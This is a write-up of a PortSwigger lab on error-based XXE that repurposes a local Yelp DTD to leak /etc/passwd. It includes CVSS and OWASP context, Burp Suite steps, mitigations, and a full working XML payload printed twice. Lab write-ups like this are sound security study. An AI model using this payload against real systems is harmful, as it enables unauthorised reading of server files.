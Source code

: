 
# 1. Exploiting XXE to Retrieve Data by Repurposing a Local DTD

## 2. CVSS Score

**CVSS v3.1 Base Score: 7.5 (High)**
**CWE-611: Improper Restriction of XML External Entity Reference (‘XXE’)**

---

## 3. OWASP Top 10 Reference

* **A05:2021 – Security Misconfiguration**
* **A04:2021 – Insecure Design**

---

## 4. Description of Vulnerability

This lab involves an advanced XML External Entity (XXE) injection technique by **redefining an entity from an existing local DTD file** on the server.

Although the application does not show the XML response directly, it leaks information through **error messages**, which can be leveraged to extract the contents of sensitive local files like `/etc/passwd`. The attack uses **indirect parameter entity expansion** and **repurposes a local DTD**, commonly found on Linux systems with GNOME installed.

---

## 5. Detailed Explanation of What We Performed

We exploited the server’s access to a known local DTD file (`/usr/share/yelp/dtd/docbookx.dtd`) and redefined one of its internal entities (`ISOamso`) to include a secondary payload that extracts the contents of `/etc/passwd`.

When the server processes the crafted XML, it expands the redefined entity, leading to a **file path error**, which leaks the contents of the target file inside the **error message** shown in the application.

---

## 6. Step-by-Step Procedure

### Step 1: Intercept the XML Request

1. Visit any product page on the lab site.
2. Click **“Check stock”**.
3. Use **Burp Suite** to **intercept the POST request** sent to the server.

---

### Step 2: Modify the XML Payload

2. Modify the intercepted request body to include a **malicious DOCTYPE** declaration that references and redefines an entity inside the Yelp DTD:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### Step 3: Forward the Request and Observe the Response

3. Forward the modified request.
4. The application returns an **error message** which now includes content from `/etc/passwd`, proving that the entity redefinition and expansion succeeded.

---

## 7. Impact of the Vulnerability

* **Server-Side File Disclosure**: Enables attackers to read arbitrary files.
* **Server Misconfiguration Exposure**: Leaks sensitive server behavior through DTD parsing.
* **Attack Chain Possibility**: The retrieved information could assist in privilege escalation, lateral movement, or further injection.

---

## 8. Recommendations and Mitigations

* **Disable External and Parameter Entities** in XML parsers.
* **Use XML parsers with secure defaults**, such as those that ignore DTDs or disallow parameter entity expansion.
* **Avoid parsing untrusted XML** unless absolutely necessary.
* **Log error responses securely**, and do not expose internal file paths or content in error messages.

---

## 9. References

* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [PortSwigger XXE Labs – Expert Level](https://portswigger.net/web-security/xxe)

---

## 10. Proof of Concept

### Malicious Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

### Result:

The server throws an error while trying to access a non-existent file path that contains the expanded contents of `/etc/passwd`.

